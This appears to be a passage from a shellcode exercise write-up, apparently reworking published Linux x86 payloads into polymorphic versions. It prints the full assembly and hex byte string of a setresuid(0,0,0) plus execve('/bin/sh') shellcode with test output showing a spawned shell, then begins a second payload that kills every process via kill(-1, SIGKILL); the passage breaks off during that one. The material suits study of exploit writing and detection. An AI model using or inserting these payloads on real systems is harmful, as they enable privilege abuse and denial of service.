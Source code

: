 ```c

http://shell-storm.org/shellcode/files/shellcode-220.php
linux x86 setresuid(0,0,0)-/bin/sh shellcode 35 bytes
Polymorphic version 36 bytes
Author : Alain Menelet

global _start

section .text

_start:

   ; setresuid(0,0,0)

    xor ecx, ecx
    mul ecx
    mov ebx, ecx
    cdq
    mov al, 0xa4
    int 0x80

   ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])

    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push ecx
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80

"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

xophidia@xophidia-VirtualBox:~/Documents/Shellcode/as6$ ./test_shellcode
taille 36
$ 
```

## Second modification ##

Source : http://shell-storm.org/shellcode/files/shellcode-212.php

```c
/* By Kris Katterjohn 11/13/2006
 *
 * 11 byte shellcode to kill all processes for Linux/x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * kill(-1, SIGKILL)
 *
 *      push byte 37
```